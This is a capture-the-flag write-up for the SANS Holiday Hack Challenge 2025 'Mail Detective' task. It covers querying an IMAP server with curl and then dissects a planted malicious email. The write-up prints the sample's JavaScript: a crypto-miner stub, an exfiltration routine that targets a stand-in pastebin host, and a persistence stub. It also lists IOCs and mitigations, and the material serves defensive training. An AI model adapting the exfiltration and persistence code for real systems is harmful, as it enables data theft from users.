




# Mail Detective

**Difficulty:** ⭐⭐

---

## Challenge Overview

This challenge involves investigating malicious JavaScript-enabled emails using command-line IMAP access. All graphical email clients have been disabled for security, requiring direct protocol-level interaction to identify and analyze threatening messages.

**Objective:** Use curl to connect to an IMAP server, identify a malicious email containing data exfiltration code, and extract the pastebin service URL used for data transmission.

---

## Challenge Description



*Mail Detective challenge briefing from Mo*

**Scenario:**

The Dosis Neighborhood has been targeted by gnomes sending JavaScript-enabled emails. The malicious scripts bypass email client security controls, necessitating shutdown of all GUI email applications. The IT team has restricted email access to curl-based IMAP connections only.

**Mission:**
- Connect to IMAP server using curl
- Enumerate mailboxes and messages
- Identify gnome-originated malicious email
- Extract pastebin exfiltration URL

**Server Credentials:**
- **IMAP Server:** localhost (127.0.0.1)
- **Port:** 143 (IMAP standard, unencrypted)
- **Username:** dosismail
- **Password:** holidaymagic

---

## IMAP Protocol Fundamentals

### Protocol Overview

**IMAP (Internet Message Access Protocol):**
- Application-layer protocol for email retrieval
- Port 143 (plaintext) or 993 (IMAPS/TLS)
- Maintains emails on server (vs. POP3 download-and-delete)
- Supports folder hierarchy and server-side search

**Dovecot:**
The challenge server runs Dovecot, a popular open-source IMAP/POP3 server commonly deployed on Linux systems.

### curl IMAP Syntax

curl supports IMAP through URL format: `imap://server:port/mailbox`

**Key Parameters:**
- `--user username:password` - Authentication credentials
- `-X 'COMMAND'` - Execute IMAP protocol command
- `;MAILINDEX=N` - Access specific message by index
- `-v` - Verbose output (protocol handshake details)

---

## Investigation Methodology

### Step 1: Server Connectivity Test

Initial connection to verify IMAP service availability:
```bash
curl -v imap://127.0.0.1:143
```

**Expected Response:**
```
* OK [CAPABILITY IMAP4rev1 SASL-IR LOGIN-REFERRALS ID ENABLE IDLE LITERAL+...]
Dovecot (Ubuntu) ready.
```

**Analysis:**
- Server responds with capability announcement
- IMAP4rev1 compliance confirmed
- Dovecot identification in banner
- Connection established, authentication required

### Step 2: Authentication and Mailbox Enumeration

Authenticate and list available mailboxes:
```bash
curl -v --user dosismail:holidaymagic imap://127.0.0.1:143
```



*IMAP LIST command response showing mailbox structure*

**IMAP Command Executed:**
```
A003 LIST "" "*"
```

**Mailbox Structure:**
```
* LIST (\HasNoChildren) "." Spam
* LIST (\HasNoChildren) "." Sent
* LIST (\HasNoChildren) "." Archives
* LIST (\HasNoChildren) "." Drafts
* LIST (\HasNoChildren) "." INBOX
```

**Analysis:**
- `\HasNoChildren` flag indicates no nested folders
- Standard mailbox hierarchy (INBOX, Sent, Drafts, Archives)
- **Spam folder present** - primary investigation target
- Delimiter character: `.` (dot)

### Step 3: Message Count Enumeration

Query each mailbox for message count using SEARCH ALL:
```bash
for folder in INBOX Spam Sent Archives Drafts; do
  echo "=== Checking $folder ==="
  curl --user dosismail:holidaymagic imap://127.0.0.1:143/$folder -X 'SEARCH ALL'
  echo ""
done
```



*SEARCH command results showing message distribution across folders*

**Results:**

| Mailbox | Message Count | Analysis |
|---------|--------------|----------|
| INBOX | 7 messages (1-7) | Normal correspondence |
| Spam | **3 messages (1-3)** | **Investigation priority** |
| Sent | 0 messages | No outbound mail |
| Archives | 7 messages (1-7) | Archived items |
| Drafts | 2 messages (1-2) | Draft messages |

**Strategic Decision:**
Focus investigation on **Spam folder** - most likely location for malicious content caught by filters.

### Step 4: Targeted Content Scanning

Scan Spam folder messages for indicators of compromise (IOCs):
```bash
for i in {1..3}; do
  echo "=== Spam Message $i ==="
  curl -s --user dosismail:holidaymagic \
    "imap://127.0.0.1:143/Spam;MAILINDEX=$i" | \
    grep -iE "pastebin|paste\.ee|dpaste|javascript|<script"
  echo ""
done
```

**Search Patterns:**
- `pastebin` - Common data exfiltration service
- `paste\.ee`, `dpaste` - Alternative pastebin platforms
- `javascript` - Scripting language references
- `<script>` - HTML script tag markers



*grep results revealing pastebin URLs in Spam Message 2*

**Critical Finding:**

**Spam Message 2** contains multiple IOCs:
```html
<script>
  // pastebin exfiltration
  var pastebinUrl = "https://frostbin.atnas.mail/api/paste";
  console.log("Sending stolen data to FrostBin pastebin service...");
  console.log("POST " + pastebinUrl);
```

**Initial Assessment:**
- Message contains embedded JavaScript
- References pastebin service for data transmission
- URL: `https://frostbin.atnas.mail/api/paste`
- Exfiltration intent explicitly documented in code comments

---

## Malicious Email Analysis

### Message Retrieval

Extract complete Spam Message 2 for detailed analysis:
```bash
curl --user dosismail:holidaymagic 'imap://127.0.0.1:143/Spam;MAILINDEX=2'
```

### Email Headers

**Critical Metadata:**
```
From: "Frozen Network Bot" <frozen.network@mysterymastermind.mail>
To: "Dosis Neighborhood Residents" <dosis.residents@dosisneighborhood.mail>
Cc: "Jessica and Joshua" <siblings@dosisneighborhood.mail>, 
    "CHI Team" <chi.team@counterhack.com>
Subject: Frost Protocol: Dosis Neighborhood Freezing Initiative
Date: Mon, 16 Sep 2025 12:10:00 +0000
Message-ID: <gnome-js-3@mysterymastermind.mail>
Content-Type: text/html; charset="UTF-8"
```

**Header Analysis:**

| Field | Value | Significance |
|-------|-------|--------------|
| From | frozen.network@mysterymastermind.mail | Suspicious domain, not legitimate |
| Subject | "Frost Protocol: Dosis Neighborhood Freezing Initiative" | Social engineering lure |
| Message-ID | gnome-js-3@mysterymastermind.mail | Sequence indicator (js-3 = 3rd JavaScript variant) |
| Content-Type | text/html | Enables JavaScript execution in vulnerable clients |

### JavaScript Payload Analysis

The email contains three distinct malicious functions:

#### 1. Cryptocurrency Mining Module
```javascript
function initCryptoMiner() {
    var worker = {
        start: function() {
            console.log("Frost's crypto miner started - mining FrostCoin...");
        }
    };
}
```

**Purpose:** Resource hijacking for cryptocurrency mining
**Impact:** CPU/power consumption, system slowdown
**Coin:** "FrostCoin" (fictional, thematic reference)

#### 2. Data Exfiltration Module (PRIMARY THREAT)
```javascript
function exfiltrateData() {
    var sensitiveData = {
        hvacSystems: "Located " + Math.floor(Math.random() * 50) + " cooling units",
        thermostatData: "Temperature ranges: " + Math.floor(Math.random() * 30 + 60) + "°F",
        refrigerationUnits: "Found " + Math.floor(Math.random() * 20) + " commercial freezers"
    };
    
    var encodedData = btoa(JSON.stringify(sensitiveData));
    
    // pastebin exfiltration
    var pastebinUrl = "https://frostbin.atnas.mail/api/paste";
    
    var exfilPayload = {
        title: "HVAC_Survey_" + Date.now(),
        content: encodedData,
        expiration: "1W",
        private: "1",
        format: "json"
    };
}
```

**Functionality:**
1. **Data Collection:** Queries for HVAC systems, thermostats, refrigeration units
2. **Encoding:** Base64-encodes JSON data (`btoa()` function)
3. **Exfiltration:** HTTP POST to `https://frostbin.atnas.mail/api/paste`
4. **Operational Security:** 1-week expiration, private paste, JSON format

**Target Data:**
- HVAC cooling unit inventory and locations
- Thermostat temperature readings
- Commercial refrigeration infrastructure

**Exfiltration Method:**
Pastebin API POST request with the following parameters:
- `title`: Timestamped identifier (HVAC_Survey_[timestamp])
- `content`: Base64-encoded sensor data
- `expiration`: 1 week (7 days)
- `private`: Hidden from public listings
- `format`: JSON structure

#### 3. Persistence Mechanism
```javascript
function establishPersistence() {
    if ('serviceWorker' in navigator) {
        console.log("Attempting to register Frost's persistent service worker...");
    }
    
    localStorage.setItem("frost_persistence", JSON.stringify({
        installDate: new Date().toISOString(),
        version: "gnome_v2.0",
        mission: "perpetual_winter_protocol"
    }));
}
```

**Purpose:** Maintain long-term access post-infection
**Techniques:**
- Service Worker registration (background execution)
- localStorage persistence (survives page refresh)
- Version tracking (gnome_v2.0 campaign identifier)

---

## Threat Assessment

### Attack Chain

1. **Initial Access:** JavaScript-enabled email bypasses client filters
2. **Execution:** User opens HTML email in vulnerable client
3. **Discovery:** Script enumerates HVAC/IoT infrastructure
4. **Collection:** Aggregates sensor data, system inventory
5. **Exfiltration:** Transmits via HTTPS to pastebin service
6. **Persistence:** Installs service worker for continued access

### Indicators of Compromise (IOCs)

**Network IOCs:**
- Domain: `frostbin.atnas.mail`
- URL: `https://frostbin.atnas.mail/api/paste`
- Protocol: HTTPS POST requests
- Pattern: Periodic data uploads (7-day cycles)

**Email IOCs:**
- Sender: frozen.network@mysterymastermind.mail
- Subject: Contains "Frost Protocol"
- Message-ID pattern: gnome-js-[number]@mysterymastermind.mail
- Content-Type: text/html with embedded scripts

**Host IOCs:**
- localStorage key: "frost_persistence"
- Service Worker: Background process registration
- Browser console: "FrostCoin" or "FrostBin" references

### Easter Eggs & Attribution

**"atnas.mail" Domain Analysis:**
```
atnas = Santa (reversed)
```
Attribution indicator linking attack to anti-Santa gnome faction.

**Campaign Identifiers:**
- **FrostBin:** Holiday-themed pastebin service
- **FrostCoin:** Fictional cryptocurrency
- **Mission:** "perpetual_winter_protocol" - gnome objective to maintain frozen state

---

## Answer

**Pastebin Exfiltration URL:** `https://frostbin.atnas.mail/api/paste`

**Justification:**
This URL is explicitly referenced in the JavaScript `exfiltrateData()` function as the target endpoint for stolen HVAC/IoT sensor data. The malicious script constructs HTTP POST requests to this pastebin API to transmit Base64-encoded reconnaissance data.

---

## Technical Deep Dive

### IMAP Protocol Commands Used

| Command | Purpose | Syntax |
|---------|---------|--------|
| CAPABILITY | List server features | `A001 CAPABILITY` |
| LOGIN | Authenticate user | `A002 LOGIN username password` |
| LIST | Enumerate mailboxes | `A003 LIST "" "*"` |
| SELECT | Open mailbox | `A004 SELECT INBOX` |
| SEARCH | Find messages | `A005 SEARCH ALL` |
| FETCH | Retrieve message | `A006 FETCH 1 BODY[]` |

**curl Abstraction:**
curl automatically handles IMAP command sequencing, translating URL syntax into protocol commands.

### Email Security Principles

**Defense Layers Bypassed:**
1. ❌ **Email Gateway Filtering:** JavaScript not detected as malicious
2. ❌ **Spam Classification:** Message reached Spam folder (partial success)
3. ❌ **Client-Side Rendering:** HTML email with active content enabled
4. ❌ **Script Execution Policy:** No Content Security Policy (CSP) enforcement

**Proper Mitigations:**
1. ✅ Disable HTML email rendering (text-only)
2. ✅ Implement strict CSP headers
3. ✅ Sandbox JavaScript execution contexts
4. ✅ Block external HTTP requests from email content
5. ✅ User security awareness training

### Data Exfiltration via Pastebin

**Why Pastebin Services?**
- **Legitimate Traffic:** Blends with normal developer activity
- **No Authentication:** Often accessible without accounts
- **Temporary Storage:** Auto-delete reduces forensic evidence
- **HTTPS Encryption:** Evades basic network monitoring
- **Public/Private Options:** Operational security flexibility

**Detection Strategies:**
- Monitor outbound HTTPS POST requests
- Baseline pastebin domain access patterns
- Inspect Base64-encoded data in HTTP bodies
- Alert on service worker registrations
- Review localStorage for suspicious persistence keys

---

## Key Takeaways

### IMAP Investigation Skills

1. **Protocol-Level Access:** GUI limitations overcome through curl
2. **Mailbox Enumeration:** Systematic folder structure analysis
3. **Pattern Matching:** grep-based IOC detection
4. **Message Extraction:** Direct IMAP command execution

### Email Threat Analysis

1. **JavaScript in Email:** Active content = attack vector
2. **HTML Rendering Risks:** Modern email clients vulnerable to embedded scripts
3. **Exfiltration Techniques:** Pastebin abuse for C2 communication
4. **Persistence Mechanisms:** Service workers enable long-term access

### Incident Response Process

1. **Identification:** Recognize anomalous email patterns
2. **Containment:** Disable vulnerable email clients
3. **Analysis:** Extract and reverse-engineer malicious payloads
4. **Eradication:** Remove persistence mechanisms, block IOCs
5. **Recovery:** Restore secure email access with mitigations
6. **Lessons Learned:** Update security policies, user training

---

## IMAP Command Reference

### Authentication and Connection
```bash
# Basic connection
curl imap://server:143

# Authenticated connection
curl --user username:password imap://server:143

# Verbose mode (protocol debug)
curl -v --user username:password imap://server:143
```

### Mailbox Operations
```bash
# List all mailboxes
curl --user user:pass imap://server:143 -X 'LIST "" "*"'

# Select mailbox (show message count)
curl --user user:pass imap://server:143 -X 'SELECT INBOX'

# Search for all messages
curl --user user:pass imap://server:143/INBOX -X 'SEARCH ALL'

# Search by criteria
curl --user user:pass imap://server:143/INBOX -X 'SEARCH FROM "attacker@evil.com"'
```

### Message Retrieval
```bash
# Fetch specific message by index
curl --user user:pass 'imap://server:143/INBOX;MAILINDEX=1'

# Fetch message headers only
curl --user user:pass 'imap://server:143/INBOX;MAILINDEX=1;SECTION=HEADER'

# Fetch message body only
curl --user user:pass 'imap://server:143/INBOX;MAILINDEX=1;SECTION=TEXT'
```

### Scripted Analysis
```bash
# Scan all messages for pattern
for i in {1..10}; do
  curl -s --user user:pass "imap://server/INBOX;MAILINDEX=$i" | \
    grep -i "malicious_pattern"
done

# Extract all message subjects
for i in {1..10}; do
  curl -s --user user:pass "imap://server/INBOX;MAILINDEX=$i;SECTION=HEADER" | \
    grep -i "^Subject:"
done
```

---

## Challenge Complete! 🎄

**Status:** ✅ Completed

**Malicious Email:** Spam Message 2  
**Threat:** JavaScript-based data exfiltration  
**Exfiltration Target:** `https://frostbin.atnas.mail/api/paste`  
**Attack Techniques:** Crypto mining, HVAC reconnaissance, pastebin C2  
**Attribution:** Frost's Gnome Network (perpetual winter protocol)

---

## References

- [RFC 3501 - IMAP4rev1 Protocol](https://tools.ietf.org/html/rfc3501)
- [Dovecot IMAP Server Documentation](https://doc.dovecot.org/)
- [curl IMAP Examples](https://everything.curl.dev/usingcurl/imap)
- [MITRE ATT&CK - Email Collection (T1114)](https://attack.mitre.org/techniques/T1114/)
- [MITRE ATT&CK - Exfiltration Over Web Service (T1567)](https://attack.mitre.org/techniques/T1567/)

---

*Writeup by SFC David P. Collette*  
*Regional Cyber Center - Korea (RCC-K)*  
*SANS Holiday Hack Challenge 2025*
